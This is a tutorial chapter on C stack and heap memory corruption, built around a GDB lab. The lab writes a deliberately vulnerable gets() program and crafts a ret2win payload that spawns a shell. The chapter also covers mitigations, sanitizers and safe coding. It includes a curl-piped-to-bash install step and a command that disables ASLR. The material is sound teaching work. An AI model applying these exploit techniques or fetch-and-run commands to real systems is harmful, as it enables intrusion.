A full treatment of heap exploitation is a later chapter, but you must be able to name the three
heap bug classes now, because they show up constantly in vuln research and CTF:

| Heap bug | Cause | Exploitation idea |
|----------|-------|-------------------|
| **Heap overflow** | writing past a heap allocation | corrupt adjacent chunk metadata or an adjacent object's pointers |
| **Use-after-free (UAF)** | using memory after `free()` | reallocate the freed chunk with attacker data; hijack a stale pointer/vtable |
| **Double free** | calling `free(p)` twice | corrupt the allocator's free-list to get a controlled write |

**Bounty relevance:** UAF is *the* dominant bug class in browser and OS exploitation — the highest
bug-bounty payouts (Chrome, Safari, Windows kernel) overwhelmingly go to UAF and type-confusion in
C++ objects on the heap. It rests on exactly the pointer-and-lifetime concepts from Part 4: a
pointer that still holds an address whose object no longer logically exists.

Detection tooling for all of these — AddressSanitizer and Valgrind — is covered in Part 12, and it
is the fastest way to *find* them in your own code or a target.

## Part 10: Hands-On Lab — Watching a Stack Overflow Under GDB

This is the centerpiece. We will write a deliberately vulnerable program, compile it with
protections off, and use **GDB** to watch, register by register, a `gets()` overflow smash the
saved return address and redirect execution into a function that was never called. Everything runs
on a Kali VM you control.

### GDB from scratch — what it is and the commands we'll use

**GDB** (the GNU Debugger) lets you run a program under full control: pause it, step one
instruction at a time, inspect and modify registers and memory, set breakpoints, and disassemble.
For binary work it's the microscope. Install a helper front-end to make its output readable:

```bash
# GEF is a popular GDB enhancement for exploitation work (pwndbg and peda are alternatives)
sudo apt install -y gdb
bash -c "$(curl -fsSL https://gef.blah.cat/sh)"   # installs GEF into ~/.gdbinit
```

The GDB commands used in this lab, taught as we go:

| Command | Meaning |
|---------|---------|
| `gdb ./vuln` | load a binary under the debugger |
| `break main` / `b vuln` | set a breakpoint at a function |
| `run` / `r` | start the program |
| `run <<< $(python3 -c '...')` | run feeding crafted stdin |
| `ni` / `si` | step over / step into one instruction |
| `continue` / `c` | resume until next breakpoint/crash |
| `info registers` / `i r` | dump all CPU registers |
| `x/40xg $rsp` | examine 40 giant (8-byte) words in hex at `rsp` |
| `disassemble vuln` | show the function's assembly |
| `p &buf` / `p func` | print an address of a symbol |
| `pattern create 200` (GEF) | generate a De Bruijn cyclic pattern |
| `pattern offset $rsp` (GEF) | find how far into the pattern a value sits |

### Step 1 — the vulnerable program

Create `vuln.c`:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

// The function we want to redirect execution INTO — but which is never called.
void win(void) {
    printf("[+] win() reached — you controlled RIP!\n");
    system("/bin/sh");            // pop a shell to prove code execution
}

void vuln(void) {
    char buffer[64];              // 64-byte stack buffer at rbp-0x40
    printf("Enter your name: ");
    gets(buffer);                 // NO bounds check — writes as many bytes as it's given
    printf("Hello, %s\n", buffer);
}

int main(void) {
    setvbuf(stdout, NULL, _IONBF, 0);   // unbuffered output so prompts show immediately
    vuln();
    printf("Normal exit.\n");
    return 0;
}
```

### Step 2 — build with every protection off (teaching build)

```bash
gcc -g -O0 -fno-stack-protector -no-pie -z execstack vuln.c -o vuln
# You'll see a linker WARNING that gets() is dangerous — that's the point.
```

- `-fno-stack-protector` — remove the stack canary so the overflow is clean.
- `-no-pie` — fixed load address, so `win()` has a stable address like `0x401176`.
- `-z execstack` — mark the stack executable (not strictly needed for ret2win, but standard for
  this teaching build).
- `-g -O0` — debug symbols, no optimization, so GDB shows source and the frame layout is textbook.

### Step 3 — confirm the crash

```bash
python3 -c "print('A'*200)" | ./vuln
```

Output:

```text
Enter your name: Hello, AAAAAAAAAAAAAAAAAA...AAAA
Segmentation fault (core dumped)
```

The program crashed because 200 `A`s (`0x41`) overflowed `buffer`, overwrote the saved return
address with `0x4141414141414141`, and `ret` jumped there — an unmapped address — causing
SIGSEGV. Confirm inside GDB:

```bash
gdb -q ./vuln
gef➤  run <<< $(python3 -c "print('A'*200)")
```

GEF prints a crash summary:

```text
Program received signal SIGSEGV, Segmentation fault.
0x0000000000401248 in vuln ()
$rsp  : 0x00007fffffffe0c8  →  "AAAAAAAA..."
$rbp  : 0x4141414141414141      <- saved RBP overwritten with our 'A's
$rip  : 0x0000000000401248
[!] the return would jump into 0x4141414141414141
```

Seeing `$rbp : 0x4141414141414141` is the "aha": our input has reached the saved frame pointer,
which sits *just below* the saved return address. We're one step from controlling `rip`.

### Step 4 — find the exact offset to the return address

Hand-counting says 64 (buffer) + 8 (saved RBP) = 72 bytes before the return address. But guessing
is error-prone (compilers add alignment padding), so we measure it with a **cyclic De Bruijn
pattern** — a string in which every 8-byte substring is unique, so whatever lands in `rip`/`rsp`
tells us its exact position:

```text
gef➤  pattern create 120
[+] Generating a pattern of 120 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaaf...
gef➤  run <<< $(python3 -c "print('aaaaaaaabaaaaaaac...')")   # paste the pattern
...
Program received signal SIGSEGV
$rsp  : 0x00007fffffffe0c8  →  "iaaaaaaajaaa..."
gef➤  pattern offset $rsp
[+] Found at offset 72 (little-endian search) likely
```

Offset **72**. That confirms the geometry: 72 bytes of filler, then the next 8 bytes overwrite the
saved return address. (This matches 64-byte buffer + 8-byte saved RBP exactly.)

### Step 5 — find `win()`'s address and build the payload

```text
gef➤  p win
$1 = {void (void)} 0x401176 <win>
```

`win()` lives at `0x401176` (stable because `-no-pie`). We craft: 72 filler bytes + the 8-byte
little-endian address of `win`:

```bash
python3 -c "import sys; sys.stdout.buffer.write(b'A'*72 + (0x401176).to_bytes(8,'little'))" > payload
xxd payload | tail -1
# 00000040: 4141 4141 4141 4141 7611 4000 0000 0000   AAAAAAAAv.@.....
#                                   ^^^^^^^^^^^^^^^^ win() addr, little-endian
```

Note `76 11 40 00 00 00 00 00` — the address `0x401176` written **least-significant byte first**,
exactly as Part 3 (endianness) warned.

### Step 6 — land the shell

```bash
# feed the payload, then keep stdin open so the spawned /bin/sh stays interactive
(cat payload; cat) | ./vuln
```

Output:

```text
Enter your name: Hello, AAAAAAAA...AAAAv@
[+] win() reached — you controlled RIP!
id
uid=1000(kali) gid=1000(kali) groups=1000(kali)...
whoami
kali
```

`win()` was **never called** in the source — `main()` only calls `vuln()`. Yet it ran, because we
overwrote the saved return address so that `vuln()`'s `ret` jumped into `win()` instead of back to
`main()`. That is a working **ret2win** exploit, and it is the seed from which ret2libc and full
ROP grow. Everything you just did was pure manipulation of the stack frame from Part 8.

### Step 7 — verify the mechanism in the disassembly

Confirm the offset independently by reading the frame setup:

```text
gef➤  disassemble vuln
   0x401200 <+0>:   push   rbp
   0x401201 <+1>:   mov    rbp,rsp
   0x401204 <+4>:   sub    rsp,0x40        <- 0x40 = 64 bytes for buffer
   ...
   0x401211 <+17>:  lea    rax,[rbp-0x40]  <- buffer is at rbp-0x40
   0x401215 <+21>:  mov    rdi,rax
   0x401218 <+24>:  call   0x401060 <gets> <- the vulnerable call
   ...
   0x40124a <+74>:  leave
   0x40124b <+75>:  ret                     <- pops our overwritten return addr into rip
```

`buffer` at `rbp-0x40` (64 bytes) + 8 bytes of saved RBP = 72 bytes before the slot that `ret`
consumes. The debugger, the cyclic pattern, and the disassembly all agree. That triangulation —
crash, measure, read the assembly, confirm — is exactly the workflow of real vulnerability triage.

## Part 11: Real-World Application — This Bug Class in Production Software

The toy above is not a toy phenomenon. The same primitive, dressed in more complexity, is behind
some of the most consequential vulnerabilities in computing history:

- **The Morris Worm (1988)** propagated partly through a stack buffer overflow in the `fingerd`
  daemon's use of `gets()` — the exact function in our lab. It's the canonical first internet worm.
- **CVE-2014-0160 "Heartbleed"** was an *over-read* (not a stack smash) in OpenSSL: a missing
  length check let an attacker request more bytes than a buffer held, leaking adjacent heap memory
  — private keys, session cookies. It's the poster child for "C doesn't check your lengths."
- **CVE-2017-0144 "EternalBlue"** was a memory-corruption bug in Windows SMBv1 (a buffer
  mis-sizing) weaponized into remote code execution and used by WannaCry and NotPetya. Nation-state
  impact from a length-handling mistake in C.
- **CVE-2021-3156 "Baron Samedit"** was a heap buffer overflow in `sudo` reachable by any local
  user, giving root — ten years latent in code, in one of the most audited setuid binaries on
  Linux.
- **Countless IoT/router CVEs** every year are stack overflows in C daemons parsing network input
  with `strcpy`/`sprintf` and no bounds check — the low end of the same spectrum, and a rich
  bug-bounty and CTF vein.

The through-line: a C program trusted a length or a terminator it shouldn't have, wrote past a
buffer, and corrupted memory the way our `vuln` did. The difference between the lab and a CVE is
mitigations and reachability, not mechanism. Which brings us to the defense.

**Pentester/researcher landing on a native target:** the first pass is always (1) identify the
architecture and protections (`checksec`), (2) grep the disassembly for dangerous sinks
(`gets`, `strcpy`, `sprintf`, `memcpy`, `read` into a fixed buffer), (3) trace attacker-controlled
input to one of those sinks, (4) reproduce a crash, (5) measure the offset, (6) assess which
mitigations are in the way. Steps 4–6 are exactly Part 10.

## Part 12: Detection & Defense Angle

The lab worked because we compiled every protection *off*. On a modern system, several mitigations
stand between a textbook overflow and code execution. A defender's job is to understand each one —
what it stops, what it doesn't, and how to enable it — and to use the tooling that finds these bugs
before an attacker does. This is the consolidated defensive section for the chapter.

### The four core exploit mitigations



| Mitigation | What it does | What defeats/limits it | Compiler/OS control |
|-----------|--------------|------------------------|---------------------|
| **Stack canary** (SSP) | random value placed between locals and saved RIP; checked on return; abort if changed | info leak of the canary; non-linear/targeted writes that skip it | `-fstack-protector-strong` (gcc) — **on** by default on most distros |
| **NX / DEP** (`W^X`) | stack & heap marked non-executable; code pages non-writable | ROP / ret2libc (reuse existing executable code) | on by default; `-z execstack` disables (don't) |
| **ASLR** | randomizes stack, heap, libc, (and text if PIE) base addresses each run | info-leak primitive; partial-overwrite; low entropy on 32-bit | kernel: `/proc/sys/kernel/randomize_va_space` = `2` |
| **PIE** | makes the executable itself position-independent so `.text` is randomized too | leak of a code address | `-fPIE -pie` (gcc) — default on modern distros |
| **RELRO** | makes the GOT read-only after startup | partial RELRO leaves GOT writable | `-Wl,-z,relro,-z,now` (full RELRO) |
| **FORTIFY_SOURCE** | compile-time + runtime checks on `memcpy`/`sprintf`/etc. | only where sizes are known at compile time | `-D_FORTIFY_SOURCE=2 -O2` |

### `checksec` — reading a binary's protections in one command

`checksec` (from the `pwntools` suite, or the standalone script) inspects an ELF and reports which
mitigations are compiled in. It's the first command in any binary assessment — offensive *or*
defensive:

```bash
pip install pwntools           # provides the `pwn checksec` command
pwn checksec vuln
```

```text
Arch:     amd64-64-little
RELRO:    No RELRO
Stack:    No canary found        <- because we built with -fno-stack-protector
NX:       NX disabled            <- because of -z execstack
PIE:      No PIE (0x400000)      <- because of -no-pie
```

Compare a *hardened* build of the same source:

```bash
gcc vuln.c -o vuln_hardened -O2 -D_FORTIFY_SOURCE=2 -fstack-protector-strong \
    -fPIE -pie -Wl,-z,relro,-z,now
pwn checksec vuln_hardened
```

```text
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
```

Same C, radically different attack surface. The ret2win from Part 10 fails against the hardened
build: the canary aborts the process on overflow, PIE+ASLR hide `win()`'s address, and NX blocks
stack shellcode. **This table is the single most useful defensive takeaway of the chapter** — as a
blue-teamer or a developer, shipping with the right column is most of the battle.

### Finding the bug before shipping — sanitizers and dynamic analysis

You don't have to wait for a crash in production. Two tools catch memory-corruption bugs during
testing:

**AddressSanitizer (ASan)** — a compiler instrumentation that detects overflows, use-after-free,
and more, at the exact moment they happen, with a full stack trace. It's the modern default for
fuzzing and CI:

```bash
gcc -g -fsanitize=address vuln.c -o vuln_asan
python3 -c "print('A'*200)" | ./vuln_asan
```

```text
==12345==ERROR: AddressSanitizer: stack-buffer-overflow on address 0x7ffc...
WRITE of size 201 at 0x7ffc... thread T0
    #0 ... in gets
    #1 ... in vuln vuln.c:13
    #2 ... in main vuln.c:22
Address 0x7ffc... is located in stack of thread T0 at offset 64 in frame
  This frame has 1 object(s):
    [32, 96) 'buffer' <== Memory access at offset 64 overflows this variable
```

ASan names the exact variable (`buffer`), the exact source line (`vuln.c:13`), and that the write
overflowed at offset 64 — turning a mysterious segfault into a precise bug report.

**Valgrind (memcheck)** — runs an *un-instrumented* binary on a synthetic CPU and flags invalid
memory access, leaks, and use of uninitialized values. Slower than ASan and weaker on stack
overflows, but needs no recompile:

```bash
valgrind --leak-check=full ./someprogram
# ==PID== Invalid write of size 1
# ==PID==   at 0x...: function (file.c:NN)
# ==PID== 40 bytes in 1 blocks are definitely lost   <- a leak
```

### Detection at runtime and in the SOC

- **The crash itself is a signal.** A daemon segfaulting on attacker input is a classic
  exploitation-attempt indicator. On Linux, `dmesg`/`journalctl` log segfaults with the faulting
  address: `vuln[12345]: segfault at 4141414141414141 ip ... sp ...`. A faulting address of
  repeating `0x41`/`0x90`/high-entropy bytes screams overflow attempt.
- **Core dumps** (`/var/crash`, `coredumpctl`) preserve the corrupted stack for post-incident
  triage — the same GDB workflow from Part 10, applied to a real crash.
- **`__stack_chk_fail` / `*** stack smashing detected ***`** in logs means a canary caught an
  overflow — treat it as a probable exploitation attempt, not a mere bug.
- **EDR / exploit-guard** technologies (CFG/CET on Windows, kernel `hardened_usercopy`, shadow
  stacks) add control-flow integrity so that even a corrupted return address can't redirect to an
  arbitrary target. Modern CPUs ship **CET shadow stacks** that keep a protected copy of return
  addresses and fault on mismatch — a hardware answer to exactly the Part 10 attack.

### Defensive coding — kill the bug at the source

The cheapest defense is not writing the bug:

```c
// BAD: unbounded, trusts input length
char buf[64];
gets(buf);                       // never — removed from C11
strcpy(buf, attacker_input);     // no size awareness

// GOOD: bounded, size always tied to the buffer
char buf[64];
fgets(buf, sizeof buf, stdin);   // reads at most sizeof(buf)-1, always NUL-terminates
snprintf(buf, sizeof buf, "%s", attacker_input);  // truncates safely
```

And structurally: prefer memory-safe languages (Rust, Go) for new network-facing parsers; compile
C with the hardened flag set above; fuzz with ASan in CI; and treat every `memcpy`/`strcpy` whose
length is influenced by input as a code-review must-check.

## Part 13: Common Mistakes & How to Avoid Them

| Mistake | Symptom | Fix |
|---------|---------|-----|
| Forgetting the `\0` terminator space | `strlen` reads past the buffer; off-by-one | size buffers as `len + 1`; use `snprintf` |
| Off-by-one in a loop bound (`<=` vs `<`) | writes one element past the array | loop `for (i=0; i<n; i++)`; review boundaries |
| Using `sizeof(ptr)` instead of the buffer size | `sizeof` of a pointer is 8, not the array length | keep the size in a variable; `sizeof(arr)` only works on real arrays in scope |
| Ignoring `malloc` returning `NULL` | NULL deref crash under memory pressure | always check `if (!p) ...` |
| Mixing signed/unsigned in length checks | negative length becomes huge `size_t` | use `size_t` for sizes; check both bounds |
| Assuming `int` is 4 or `long` is 8 everywhere | portability bug; overflow on other platforms | use `<stdint.h>` fixed-width types (`uint32_t`) |
| Reading `/proc/self/maps` addresses and hardcoding them | breaks under ASLR | never hardcode; leak at runtime |
| Testing overflows without ASan | subtle corruption goes unnoticed until prod | compile tests with `-fsanitize=address` |
| Wrong endianness in a payload address | exploit "silently fails," jumps to garbage | write addresses little-endian (`p64()` / `to_bytes(8,'little')`) |
| Debugging an `-O2` build and confused by the layout | inlining/reordering hides the frame | learn on `-O0 -g`; then graduate to optimized builds |

## Part 14: Final Revision / Summary

- **C is portable assembly.** A *type* is just "how many bytes and how to interpret them." `int`=4,
  `long`/pointer/`size_t`=8 on x86-64 Linux; confirm with `sizeof`. Signed↔unsigned confusion and
  wrong-width assumptions are their own bug classes.
- **The compilation pipeline** is preprocess → compile → assemble → link. Build flags decide
  exploitability; a learning build turns protections off (`-fno-stack-protector -no-pie
  -z execstack -g -O0`), a shipping build turns them on.
- **A pointer is a variable holding an address.** `&` takes an address, `*` follows one. Pointer
  arithmetic is scaled by the pointed-to type, and `a[i] == *(a+i)` — which is exactly why array
  indexing isn't bounds-checked.
- **Arrays and strings are raw bytes.** A C string is a `char` array ending in `\0`. `gets`,
  `strcpy`, `sprintf`, `strcat`, unbounded `scanf("%s")` are the overflow-causing sinks — memorize
  them.
- **The process address space** runs `.text`(r-x) / `.data` / `.bss` / heap(grows ↑) / mmap+libs /
  stack(grows ↓). `/proc/<pid>/maps` shows it live; `[stack]` is `rw-` (NX).
- **The stack grows down**; `rsp` = top, `rbp` = frame base. A **function call** pushes a return
  address; the **prologue** (`push rbp; mov rbp,rsp; sub rsp,N`) builds a frame; the **epilogue**
  (`leave; ret`) tears it down and pops the return address into `rip`.
- **A stack overflow** overwrites, in order, the buffer → saved RBP → saved return address. Control
  the return address and you control execution (ret2win → ret2libc → ROP). Find the offset with a
  cyclic pattern; write the target address **little-endian**.
- **Mitigations** — canary, NX/DEP, ASLR, PIE, RELRO, FORTIFY, CET shadow stacks — each block part
  of the chain. `checksec` reads them; ASan/Valgrind find the bugs pre-ship; hardened compiler
  flags and bounded functions kill them at the source.

## Part 15: Cheat Sheet / Quick Reference

**Build (learning vs hardened)**
```bash
# learning / exploitable
gcc -g -O0 -fno-stack-protector -no-pie -z execstack vuln.c -o vuln
# hardened / production
gcc -O2 -D_FORTIFY_SOURCE=2 -fstack-protector-strong -fPIE -pie \
    -Wl,-z,relro,-z,now vuln.c -o app
```

**Inspect the pipeline**
```bash
gcc -E f.c -o f.i     # preprocess    gcc -S f.c   # -> assembly
gcc -c f.c -o f.o     # assemble      objdump -d f.o   # disassemble
```

**Type sizes (x86-64 Linux):** `char`1 `short`2 `int`4 `long`8 `long long`8 `float`4 `double`8
`void*`8 `size_t`8. Endianness: **little** (LSB first).

**Pointers:** `&x` = address-of · `*p` = dereference · `p+1` advances `sizeof(*p)` bytes ·
`a[i] == *(a+i)`.

**Address-space map (low→high):** `.text`(r-x) → `.rodata` → `.data`/`.bss` → heap↑ → mmap/libs →
stack↓. View: `cat /proc/<pid>/maps`.

**Stack frame (after prologue):** `[buffer]  [saved rbp]  [saved return addr]` at increasing
addresses. Overflow offset to RIP = buffer size + 8 (saved rbp).

**Dangerous → safe:** `gets`→`fgets` · `strcpy`→`strlcpy` · `strcat`→`strlcat` ·
`sprintf`→`snprintf` · `scanf("%s")`→`scanf("%63s")`.

**GDB/GEF essentials**
```text
b vuln ; run ; i r ; x/40xg $rsp ; disassemble vuln
pattern create 120 ; pattern offset $rsp ; p win
```

**Defensive triage**
```bash
pwn checksec ./bin                     # what protections are on?
gcc -fsanitize=address ...             # catch the bug with a stack trace
valgrind --leak-check=full ./bin       # leaks & invalid access, no recompile
```

**Payload math (ret2win):** `b'A'*offset + p64(target_addr)` — address little-endian.

## Part 16: Practice Labs & Resources

Work these in order; each trains a piece of this chapter directly:

- **pwn.college — "Program Interaction" and "Memory Errors" modules.** The best free, structured
  path from "what is a process" through your first stack overflows, with a grader. Start here.
- **PicoCTF — Binary Exploitation category** (`buffer overflow 0/1/2/3`). `buffer overflow 0` is a
  crash-to-win; `1` is ret2win exactly like Part 10; `2`/`3` add arguments and ASLR. Ideal
  first CTF challenges for this material.
- **PicoCTF — Reverse Engineering (`GDB baby steps`, `assembly` challenges)** to cement reading
  disassembly and driving GDB.
- **OverTheWire — Narnia.** A wargame dedicated to classic C memory-corruption (overflows, format
  strings, integer bugs) on a real remote host. Narnia0–2 map onto this chapter.
- **Nightmare (guyinatuxedo) — "Stack" chapters.** A free, deeply worked binary-exploitation
  course; its early stack-overflow and ret2win writeups mirror the Part 10 lab with real binaries.
- **exploit.education — Phoenix (stack-zero … stack-five).** Purpose-built vulnerable programs that
  walk the exact overflow → saved-RBP → return-address progression, with source provided.
- **CryptoPals is *not* this** — for memory work stick to the pwn/RE tracks above.
- **Reading:** *Hacking: The Art of Exploitation* (Erickson), ch. on the stack; the classic
  "Smashing The Stack For Fun And Profit" (Aleph One) — dated but foundational; and the LiveOverflow
  "Binary Exploitation / memory corruption" YouTube playlist for a visual walkthrough.

**Suggested drills**
1. Rebuild the Part 10 `vuln` with `-fstack-protector-strong` and confirm with GDB that the
   overflow now triggers `*** stack smashing detected ***` instead of a clean RIP overwrite.
2. Turn ASLR off (`echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`), then back on (`2`), and
   observe how `p win` / libc base addresses change between runs.
3. Write a 20-line program that reads a length as a signed `int` and `memcpy`s that many bytes;
   trigger the integer-signedness bug from Part 3 and catch it with AddressSanitizer.
4. Run `pwn checksec` on five binaries in `/usr/bin` and note which mitigations real distro tools
   ship with by default on a current system.
